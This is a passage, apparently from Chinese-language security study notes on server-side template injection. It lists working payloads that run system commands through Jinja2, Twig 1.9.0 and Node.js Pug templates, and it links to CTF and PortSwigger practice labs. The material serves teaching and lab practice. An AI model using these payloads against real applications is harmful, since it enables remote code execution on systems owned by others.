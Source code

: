 [https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

执行命令并输出在模板中。

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

能够获取 os 库的 Payload。

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

### PHP Twig (1.9.0)

Payload。

```bash
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```

### Node.js Pug

通过 NodeJS 全局对象 global，查找 require 导入 child\_process.exec 执行命令。

```javascript
global.require('child_process').exec('calc')
```

14.0.0 之前版本 [mainModule](http://nodejs.cn/api/process/process_mainmodule.html) 还没被移除有以下方法可以使用。

```javascript
global.process.mainModule.require('child_process').exec('calc')
global.process.mainModule.constructor._load('child_process').exec('calc')
```

## 靶场练习

### BUUCTF

-   [https://buuoj.cn/challenges#\[CSCCTF%202019%20Qual\]FlaskLight](https://buuoj.cn/challenges#[CSCCTF%202019%20Qual]FlaskLight)
-   [https://buuoj.cn/challenges#\[HFCTF%202021%20Final\]easyflask](https://buuoj.cn/challenges#[HFCTF%202021%20Final]easyflask)
-   [https://buuoj.cn/challenges#\[pasecactf\_2019\]flask\_ssti](https://buuoj.cn/challenges#[pasecactf_2019]flask_ssti)
-   [https://buuoj.cn/challenges#\[Flask\]SSTI](https://buuoj.cn/challenges#[Flask]SSTI)
-   [https://buuoj.cn/challenges#\[%E7%AC%AC%E4%B8%89%E7%AB%A0%20web%E8%BF%9B%E9%98%B6\]SSTI](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%89%E7%AB%A0%20web%E8%BF%9B%E9%98%B6]SSTI)

### Web Security Academy

-   [PortSwigger Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)
